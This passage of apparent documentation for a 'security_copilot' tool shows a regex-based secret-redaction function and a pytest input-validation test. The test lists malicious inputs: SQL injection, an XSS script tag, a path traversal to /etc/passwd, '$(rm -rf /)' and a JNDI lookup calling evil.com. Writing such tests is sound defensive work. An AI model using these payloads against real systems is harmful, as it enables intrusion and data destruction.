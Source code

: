 ```python
            r'\b[0-9a-f]{8}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{12}\b',
            '[REDACTED-SUBSCRIPTION-ID]',
            text
        )
        
        # GitHub tokens
        text = re.sub(
            r'\bghp_[a-zA-Z0-9]{36}\b',
            '[REDACTED-GITHUB-TOKEN]',
            text
        )
        
        # Generic secrets (base64-like strings)
        text = re.sub(
            r'\b[A-Za-z0-9+/]{40,}={0,2}\b',
            '[REDACTED-SECRET]',
            text
        )
        
        return text
```

### Security Testing

```python
# tests/security/test_input_validation.py
import pytest
from security_copilot.models import ResourceIdentifier
from pydantic import ValidationError

class TestInputValidation:
    """Security tests for input validation."""
    
    def test_subscription_id_injection_protection(self):
        """Test protection against injection in subscription ID."""
        malicious_inputs = [
            "'; DROP TABLE findings; --",
            "<script>alert('xss')</script>",
            "../../etc/passwd",
            "$(rm -rf /)",
            "${jndi:ldap://evil.com/}"
        ]
        
        for malicious_input in malicious_inputs:
            with pytest.raises(ValidationError):
                ResourceIdentifier(
                    subscription_id=malicious_input,
                    resource_group="test",
                    resource_name="test"
                )
    
    def test_resource_name_sanitization(self):
        """Test resource name sanitization."""
        test_cases = [
            ("normal_name", "normal_name"),
            ("name with spaces", "namewithspaces"),
            ("name/with/slashes", "namewithslashes"),
            ("name<with>html", "namewithhtml"),
            ("very_long_name_" * 10, "very_long_name_" * 5)  # Truncated
        ]
        
        for input_name, expected in test_cases:
            resource = ResourceIdentifier(
```